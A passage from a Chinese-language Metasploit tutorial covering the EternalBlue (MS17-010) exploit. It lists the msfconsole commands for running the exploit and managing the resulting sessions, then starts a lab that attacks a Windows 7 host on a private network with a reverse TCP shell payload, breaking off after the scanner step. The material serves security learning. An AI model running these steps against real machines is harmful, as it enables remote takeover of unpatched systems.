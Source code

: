 ### 7.exploit命令

```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit -j     #-j 表示后台执行,渗透目标完成后会创建一个 session 我们可以通过 session 连接目标主机。
```
```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions   #查看会话详细信息
```
```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 4      #通过会话 Id 进入会话
```
```powershell
C:\Windows\system32>background      #退出会话将会话保存到后台
```
```powershell
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -k 4      #根据会话 Id 结束会话
```

## 实践1：使用 msf 渗透攻击 Win7 主机并远程执行命令

### 1.概述

攻击机器：kali Linux（IP:192.168.2.16）

被攻击机器：windows 7专业版（IP:192.168.2.173）

利用漏洞：ms17-010漏洞
使用shell：payload/windows/x64/shell/reverse_tcp

**注意：在开始攻击前互ping主机，确保网络联通，windows 7主机在被攻击前请关闭防火墙，否则无法完成攻击。**

### 2.攻击过程

**（1）搜索对应的扫描模块**

```powershell
msf5 > search ms17-010
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320206.webp)

**（2）使用扫描模块**

```powershell
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320204.webp)

**（3）查看需要配置的选项**

```powershell
msf5 auxiliary(scanner/smb/smb_ms17_010) > show options
```

![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320236.webp)
